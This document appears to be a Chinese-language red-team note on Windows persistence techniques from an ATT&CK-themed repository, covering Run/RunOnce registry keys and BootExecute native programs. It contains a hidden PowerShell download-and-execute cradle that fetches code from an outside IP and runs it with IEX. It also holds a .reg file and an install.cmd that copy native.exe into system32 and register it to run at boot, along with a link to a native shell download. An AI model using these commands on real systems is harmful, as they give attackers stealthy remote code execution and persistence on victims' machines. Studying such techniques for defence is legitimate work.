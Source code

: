 HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/e2c9c7f48165ab47e1e5dad44aa0f763.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/bd210953f45a3187bc0be35ee6cbadc5.png)

cmd.exe /c powershell.exe -nop -w hidden -c "\$l=new-object
net.webclient;\$l.proxy=[Net.WebRequest]::GetSystemWebProxy();\$l.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX
\$l.downloadstring('http://10.95.14.216:8080/MWzJkHqxQmTmol');"

user1用户登录:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/6854327a7777db6806f7f24ac03e3848.png)

administrator用户登录:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/64d2f5633b8919e504001d81c2b71d4a.png)

通过BootExecute来实现启动Native程序，Native程序在驱动程序和系统核心加载后将被加载，此时会话管理器(smss.exe)进行windowsNT用户模式并开始按顺序启动native程序

SMSS.EXE会话管理器调用配置子系统:

HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\hivelist

HKEY_LOCAL_MACHINE\\SYSTEM\\ControlSet001\\Control\\Session Manager\\BootExecute

用于系统启动时的自检，启动项里的程序在系统图形化界面完成前就已经被执行，具有很高的优先级

http://hex.pp.ua/files/nativeshell_0.12.rar

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/3914342a09d90a9877935492d75bafe9.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/b3c61047e9c8bf2d6fd852d86e947cbb.png)

add.reg:

REGEDIT4

[HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager]

"BootExecute"=hex(7):61,75,74,6f,63,68,65,63,6b,20,61,75,74,6f,63,68,6b,20,2a,\\

00,6e,61,74,69,76,65,20,48,65,6c,6c,6f,20,57,6f,72,6c,64,21,00,00

install.cmd:

\@echo off

copy native.exe %systemroot%\\system32\\.

regedit /s add.reg
